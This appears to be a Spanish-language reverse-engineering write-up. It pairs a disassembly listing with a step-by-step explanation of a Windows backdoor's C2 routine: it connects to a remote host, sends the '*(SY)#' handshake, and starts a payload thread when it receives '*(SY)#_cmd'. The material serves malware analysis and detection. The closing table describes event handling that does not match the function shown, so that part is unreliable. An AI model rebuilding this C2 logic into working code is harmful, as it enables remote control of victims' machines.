        00401548 b9 3f 00        MOV        ECX,0x3f
                 00 00
        0040154d 33 c0           XOR        EAX,EAX
        0040154f 8d 7c 24 58     LEA        EDI,[ESP + 0x58]
        00401553 53              PUSH       EBX
        00401554 f3 ab           STOSD.REP  ES:EDI
        00401556 66 ab           STOSW      ES:EDI
        00401558 aa              STOSB      ES:EDI
        00401559 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
        0040155d 68 ff 00        PUSH       0xff
                 00 00
        00401562 50              PUSH       EAX
        00401563 55              PUSH       EBP
        00401564 e8 09 09        CALL       WS2_32.DLL::Ordinal_16                           undefined Ordinal_16()
                 00 00
        00401569 83 f8 ff        CMP        EAX,-0x1
        0040156c 0f 84 af        JZ         LAB_00401421
                 fe ff ff
                             LAB_00401572                                    XREF[1]:     004015ce(j)
        00401572 3b c3           CMP        EAX,EBX
        00401574 0f 8e a7        JLE        LAB_00401421
                 fe ff ff
        0040157a 6a 06           PUSH       0x6                                              size_t _MaxCount for _strnicmp
        0040157c 8d 4c 24 5c     LEA        ECX,[ESP + 0x5c]
        00401580 68 4c 30        PUSH       s_*(SY)#_0040304c                                char * _Str2 for _strnicmp
                 40 00
        00401585 51              PUSH       ECX                                              char * _Str1 for _strnicmp
        00401586 e8 2b 07        CALL       MSVCRT.DLL::_strnicmp                            int _strnicmp(char * _Str1, char
                 00 00
        0040158b 83 c4 0c        ADD        ESP,0xc
        0040158e 85 c0           TEST       EAX,EAX
        00401590 75 5d           JNZ        LAB_004015ef
        00401592 6a 0a           PUSH       0xa                                              size_t _MaxCount for _strnicmp
        00401594 8d 54 24 5c     LEA        EDX,[ESP + 0x5c]
        00401598 68 40 30        PUSH       s_*(SY)#_cmd_00403040                            char * _Str2 for _strnicmp
                 40 00
        0040159d 52              PUSH       EDX                                              char * _Str1 for _strnicmp
        0040159e e8 13 07        CALL       MSVCRT.DLL::_strnicmp                            int _strnicmp(char * _Str1, char
                 00 00
        004015a3 83 c4 0c        ADD        ESP,0xc
        004015a6 85 c0           TEST       EAX,EAX
        004015a8 74 36           JZ         LAB_004015e0
        004015aa b9 3f 00        MOV        ECX,0x3f
                 00 00
        004015af 33 c0           XOR        EAX,EAX
        004015b1 8d 7c 24 58     LEA        EDI,[ESP + 0x58]
        004015b5 53              PUSH       EBX
        004015b6 f3 ab           STOSD.REP  ES:EDI
        004015b8 66 ab           STOSW      ES:EDI
        004015ba aa              STOSB      ES:EDI
        004015bb 8d 44 24 5c     LEA        EAX,[ESP + 0x5c]
        004015bf 68 ff 00        PUSH       0xff
                 00 00
        004015c4 50              PUSH       EAX
        004015c5 55              PUSH       EBP
        004015c6 e8 a7 08        CALL       WS2_32.DLL::Ordinal_16                           undefined Ordinal_16()
                 00 00
        004015cb 83 f8 ff        CMP        EAX,-0x1
        004015ce 75 a2           JNZ        LAB_00401572
        004015d0 e8 7b 05        CALL       FUN_00401b50                                     undefined4 FUN_00401b50(void)
                 00 00
        004015d5 5f              POP        EDI
        004015d6 5e              POP        ESI
        004015d7 5d              POP        EBP
        004015d8 5b              POP        EBX
        004015d9 81 c4 dc        ADD        ESP,0x3dc
                 03 00 00
        004015df c3              RET
                             LAB_004015e0                                    XREF[1]:     004015a8(j)
        004015e0 55              PUSH       EBP                                              void * _ArgList for _beginthread
        004015e1 53              PUSH       EBX                                              uint _StackSize for _beginthread
        004015e2 68 f0 16        PUSH       _StartAddress_004016f0                           _StartAddress * _StartAddress fo
                 40 00
        004015e7 e8 c4 06        CALL       MSVCRT.DLL::_beginthread                         uintptr_t _beginthread(_StartAdd
                 00 00
        004015ec 83 c4 0c        ADD        ESP,0xc
                             LAB_004015ef                                    XREF[1]:     00401590(j)
        004015ef 53              PUSH       EBX                                              DWORD dwExitCode for ExitThread
        004015f0 ff 15 0c        CALL       dword ptr [->KERNEL32.DLL::ExitThread]           = 00002314
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
             assume FS_OFFSET = <UNKNOWN>
        004015f6 90 90 90        align      align(10)
                 90 90 90
                 90 90 90 90
```

🧠 1. Preparación del entorno
```
00401320  SUB ESP,0x3dc
00401326  PUSH EBX
00401327  PUSH EBP
00401328  PUSH ESI
00401329  PUSH EDI
```
Reserva espacio en la pila y guarda registros.

🔍 2. Busca la posición del carácter ':' (0x3A) en una cadena
```
0040132a  PUSH 0x3a
0040132c  PUSH _Str_004030a0
00401331  CALL strchr
```
Busca : en una cadena, posiblemente una dirección IP con puerto (e.g., 127.0.0.1:8080), y calcula su posición.

📋 3. Divide la cadena en dos partes
Separa la cadena en dos zonas:  
- Parte antes de : → posible IP o dominio
- Parte después → posible puerto

Se copian ambas partes a la pila (local_3a8, local_3bb, etc.).

🖥️ 4. Obtiene el nombre del equipo
```
004013c2  CALL GetComputerNameA
```
Guarda el nombre del equipo en local_294.

🌐 5. Inicializa Winsock (WSAStartup)
```
004013fa  CALL Ordinal_115 ; WSAStartup
```

🔌 6. Crea un socket
```
00401404  CALL Ordinal_23 ; socket(AF_INET, SOCK_STREAM, 0)
```
Se guarda el resultado en EBP. Si falla, duerme un rato y vuelve a intentarlo.

🌍 7. Prepara la estructura sockaddr_in
```
0040143d  CALL atol ; convierte string a número (puerto)
00401446  CALL Ordinal_9 ; inet_addr
```

🫳 8. Conecta al host remoto
```
00401466  CALL Ordinal_4 ; connect
```
Si falla, repite el bucle.

📡 9. Envía la cadena “*(SY)#” al host
```
00401491  MOV EDI,s_*(SY)#_00403060
...
00401506  CALL Ordinal_19 ; send
```
Puede ser una especie de handshake o identificador del malware.

📥 10. Recibe comando del servidor
```
00401563  CALL Ordinal_16 ; recv
```
Si recibe *(SY)#_cmd, entonces:

```
004015e2  PUSH _StartAddress_004016f0
004015e7  CALL _beginthread
```
→ Lanza un hilo (payload) al recibir el comando correcto.

💣 11. Si no es válido, termina
```
004015f0  CALL ExitThread
```

💡 Conclusión. Esta función es el núcleo del comportamiento de conexión remota del malware. Realiza:
- Resolución de dirección/puerto desde un string.
- Obtención del nombre del host.
- Inicialización de Winsock.
- Conexión a un C2 (Command and Control).
- Envío de identificador o saludo.
- Recepción de comandos del servidor.
- Si el comando es el esperado (*(SY)#_cmd), ejecuta un nuevo hilo (posible payload).
- Si no, termina el hilo.

Es un malware backdoor con C2 que espera instrucciones remotas para ejecutar payloads en forma de hilos.


🎯 ¿Qué papel cumple esta función en el malware?
| Comportamiento |	Posible función en el malware |
| --| -- |
| Crear eventos	| Sincronización entre hilos o fases del malware |
| Borrar buffer con REP STOSD	| Limpiar memoria para evitar dejar rastros |
| Llamar a otra función y esperar	| Ejecutar rutina secundaria (desempaquetar, inyectar...) y pausar hasta que finalice |
| Esperar y cerrar el evento	| Comportamiento ordenado tras ejecución controlada |
